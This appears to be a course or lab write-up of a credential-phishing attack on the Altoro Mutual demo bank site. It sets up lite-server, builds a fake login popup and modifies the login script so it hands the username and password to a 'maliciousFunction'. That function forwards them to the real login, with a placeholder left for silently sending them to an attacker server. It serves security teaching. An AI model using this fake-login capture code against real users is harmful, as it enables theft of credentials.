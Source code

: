 # XSS attack against a user that is currently not logged in



## This entire task covers both of the below mentioned operations

1. Design an attack that fakes the Login form to attack users that are currently not logged in. Send the login information to a server of your choice and login the user normally afterwards.
2. How can you hide the attack code to the victim? Implement an exemplary concealment.



## Create Lite-Server

We have used the Angular CLI for project development as node project. We will use the **lite-server** for creating the web-server (HTTP-Server). We can add the lite-server library through npm or yarn.

Installed lite-server through yarn
```
yarn add lite-server
```

or use npm to install lite-server
```
npm install lite-server
```



## Configure the Lite-Server

We have added the following code in the `package.json` file (which acts is project and library manager for the web application developed as a node project) within `script` section:

```
  "scripts": {
    ...
    "lite-server": "lite-server -c=bs-config.json"
    ...
  },
```

The configuration detail for the lite-server is mentioned within the `bs-config.json` file.

Code within the `bs-config.json` file:
```
{
    "_comment1": "https://github.com/johnpapa/lite-server",
    "_comment2": "https://www.browsersync.io/docs/options",
    "port": 3000,
    "host": "127.0.0.1",
    "files": ["./lite-server/*.{html,htm,css,js}"],
    "server": { 
        "baseDir": "./lite-server"
    }
}
```

The configuration file tells the lite-server library to run as the ***HTTP-Server*** on the host `127.0.0.1 or localhost` and port `3000`.



## Execute the 'lite-server' HTTP-server through `yarn` or `npm`

Start lite-server through yarn:
```
yarn run lite-server
```

Start lite-server through npm:
```
npm run lite-server
```

Screenshot:  
![Screenshot](img/XSS_NLU_Run_LiteServer.png)

Screenshot browser:
![Screenshot](img/XSS_NLU_HTTP_Page.png)



## Open the Login page of the 'Altoro Mutual'

We have created the fake login page that looks exactly like the bank's login website. Upon clicking the link on the top with text `Login to Altoro Mutual`, a popup page will open wit the login screen of the ***Altoro Mutual***:  

![Screenshot](img/XSS_NLU_Login_Page.png)


## Upon entering the credentials

The user can enter the credentials in order to login on the bank's web application.

![Screenshot](img/XSS_NLU_Login_Credentials.png)

Upon clicking on the login button following code (copied from web page on the bank's web application) gets executed:
```

			function confirminput(myform) {
			    if (myform.uid.value.length && myform.passw.value.length) {
					debugger;
					try {
				  		window.parent.maliciousFunction(myform.uid.value, myform.passw.value);	
					} catch (error) {
						console.log(JSON.stringify(error))
					}
			      return (false);
				}
				else if (!(myform.uid.value.length)) {
			      alert ("You must enter a valid username");
			      return (false);
			    } else {
			      alert ("You must enter a valid password");
			      return (false);
			    }
			}
			window.onload = setfocus;
```

The modification from the authentic are:
```
                    debugger;
					try {
				  		window.parent.maliciousFunction(myform.uid.value, myform.passw.value);	
					} catch (error) {
						console.log(JSON.stringify(error))
					}
```
The `debugger` is added for the debugging purpose to view the code execution flow.



## Malicious Code

The `index.html` contains the malicious that get execution from the popup window (containing the User Interface of the Bank's Login Page) that is meant for the user login.

```
/**
     * Redirect to respective page with following parameters.
     * Do not use this function without intimation from the author (Vivek Yadav)
     * This code has been written before 2006
     * @param {type} to
     * @param {type} p
     * @returns {undefined}
     */
    function postwith (to,p) {
      var myForm = document.createElement('form');
      myForm.method='post' ;
      myForm.action = to ;
      for (var k in p) {
        var myInput = document.createElement('input') ;
        myInput.setAttribute('name', k) ;
        myInput.setAttribute('value', p[k]);
        myForm.appendChild(myInput) ;
      }
      document.body.appendChild(myForm) ;
      myForm.submit();
      document.body.removeChild(myForm) ;
    }
    
    function maliciousFunction(username, password) {
      // Start > Code to send the credentials
      
      // End > Code to send the credentials

      postwith("https://demo.testfire.net/doLogin",{
        uid : username,
        passw: password
      });
    }
```

After after entering the correct login credentials from bank and clicking on the login button the user is redirected to the welcome page of the bank's web application. 

![Screenshot](img/XSS_NLU_Login_Success.png)


The malicious section mentioned below can have code to silently send the user's credential to an endpoint on the malicious server accepting the credentials. 
```
      // Start > Code to send the credentials
      
      // End > Code to send the credentials
```


## Enchancement to the Malicious Code

The malicious section can be enhanced with an additional lines of code to verify the success response from the server and redirect the user to the main page of the bank's web application (server). For this task `ajax` function from 'jQuery' can be a perfect candidate.
```
    function maliciousFunction(username, password) {
      // Start > Code to send the credentials
      $.post({
          url: "https://demo.testfire.net/doLogin",
          ...
          success : function(res) {
            if( [res is positive] ) {
                postwith("https://demo.testfire.net/doLogin",{
                    uid : username,
                    passw: password
                });
            }
            else {
                // Display error message exactly mentioned on the server.
            }
          },
          ...
      })
      // End > Code to send the credentials

    }
```

